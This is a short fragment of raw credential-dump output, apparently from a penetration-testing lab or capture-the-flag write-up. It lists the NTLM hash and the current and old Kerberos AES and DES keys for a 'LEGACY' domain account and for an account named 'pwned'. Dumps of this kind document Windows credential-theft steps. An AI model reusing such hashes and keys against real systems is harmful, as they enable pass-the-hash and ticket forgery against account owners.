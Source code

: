 ```
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 0fe6dc1f684e736780d99ac621d13651

* Primary:Kerberos-Newer-Keys *
    Default Salt : LEGACYadrian
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 9d6caa520339858826216e146f197175983152ca6cc23600c90c59bb9f26ecca
      aes128_hmac       (4096) : 98a2a006eba652cdd5173acf15c16de8
      des_cbc_md5       (4096) : 45d6685898ae3e52
    OldCredentials
      aes256_hmac       (4096) : a1442b55e43679adca87f4cc85ff4a81cba38d6f967f15bfb79cff931f7fa1f6
      aes128_hmac       (4096) : 1b7ef6c5e883574d964cf0a80f3bd097
      des_cbc_md5       (4096) : 46c457ae237fd67c

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : LEGACYadrian
    Credentials
      des_cbc_md5       : 45d6685898ae3e52
    OldCredentials
      des_cbc_md5       : 46c457ae237fd67c


RID  : 000003ed (1005)
User : pwned
  Hash NTLM: 8119935c5f7fa5f57135620c8073aaca

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 45fefcdc634f3d8931565bbed0275460

* Primary:Kerberos-Newer-Keys *
    Default Salt : LEGACYpwned
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : b79d6551adebfe18ef9f0230d94a17c5cfb226b25de0ad73dc122a417aed12e5
      aes128_hmac       (4096) : 7978a7fed2bd218bc91190cb5d9995c4
      des_cbc_md5       (4096) : a86462dcda2cab10

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : LEGACYpwned
    Credentials
      des_cbc_md5       : a86462dcda2cab10
```
